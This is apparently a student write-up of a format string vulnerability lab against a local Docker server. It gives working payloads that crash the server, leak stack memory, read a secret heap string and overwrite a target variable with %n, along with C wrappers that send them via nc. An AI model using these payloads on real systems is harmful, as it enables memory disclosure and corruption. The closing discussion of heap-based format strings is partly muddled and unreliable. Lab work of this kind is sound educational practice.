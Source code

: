 # Question 1

## Setup
To start, we disabled address randomization, as the program's address layout and order is crucial for this attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

The server's program.c was compiled with the **-z execstack** flag to allow code execution within the stack.

We then opened a terminal with the server using Docker from Seed Labs:
```bash
docker-compose build
docker-compose up
```

And another terminal to use as a client to communicate with the servers. This setup allowed us to observe messages exchanged between both sides. We then send the string asked to the server:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```
 ![hello](/docs/images/hello.png)

The server returned necessary information for the following tasks:
- Input buffer address
- Secret message address
- Addresses of a target variable
- Frame pointer for the myprintf function


## Task 1
To crash the server, we sent the following input:

```bash
$ echo '%n' | nc 10.9.0.5 9090
```
 ![crash](/docs/images/crash.png)

The format string attempts to write with %n to a memory address outside the allowed address space of the process caused a crash, resulting in a segmentation fault. The absence of the "Returned properly" message confirmed the server had crashed.


## Task 2

### Task 2.A	
We used "DJLD", represented in hexadecimal as "444A4C44", to print the first 4 bytes of the input from the format string. 
Our initial approach was to input "DJLD" concatenated with multiple "%08x" format specifiers.

```bash
echo "DJLD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
 ```

![letters](/docs/images/letters.png)

The final "444C4A44" is the address of our input "DJLD". Observing that each address has 8 characters (32-bit addresses), we determined there are 63 stack addresses between the format string and the buffer. Thus, a string with exactly 64 "%x" is needed to print the initial 4 bytes of the input.

### Task 2.B
To print a string from the heap at address 0x080b4008, we encoded the address as "\x08\x0b\x40\x08". With 63 "%08x" and a final "%s", the format string reads from this address and returns the hidden value.

We created a func.c file and compiled it:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

```bash
gcc -o func fun.c 
```

And then run it:

```bash
./func
```
 
 ![secret](/docs/images/secret.png)

The server confirmed the message at this address is  "A secret message."


## Task 3

### Task 3.A

Here, we needed to modify the value of the target variable. Initially, it held 0x11223344, and its address was 0x080e5068.
Using %n, like we used in task 1, we could write the count of characters printed so far to the specified address. This approach involved a command similar to Task 2.B, we just wrote to the address instead of reading from it.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

 ![change](/docs/images/change.png)

The target value changed.


### Task 3.B

This time, we needed to set the target variable to a specific value: 0x5000 (20480 in decimal). Knowing %n would write the character count, we crafted an input with 20408 characters, and used %.NX, with N = 19980 (computed by subtracting 4 and the 63 * 8 from 20408), to achieve the required count.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}

```

 ![5000](/docs/images/5000.png)

The target variable was now 0x00005000.


# Question 2

CWE-134 format string vulnerabilities occur when user-controlled data is unsafely passed to formatting functions, allowing attackers to manipulate memory via format specifiers.
When the format string is on the stack:
Reading stack data is easier using %x or %s, as stack addresses and data are accessible.
Writing to the stack with %n allows attackers to overwrite critical stack values, like local variables or return addresses.
If the format string is on the heap:
Reading and writing to the stack becomes difficult, as %x and %n would target the heap instead.
Attacks relying on stack manipulation, like reading stack addresses or overwriting variables, would fail or be less effective.

- Task 2.A: The %x attack, which reveals stack addresses, would fail because it depends on accessing stack memory. With the format string on the heap, only heap addresses would be revealed.
- Task 2.B: While this attack relies on reading from a specific heap address, the format string's location in the heap would make it harder to control and predict the memory layout, making the attack less reliable.
- Task 3.A: Modifying stack variables using %n would also not work since %n would write to heap memory, not affecting the stack variables.
- Task 3.B: Writing a specific value to the stack with %n would fail because %n would target the heap instead of the intended stack address.


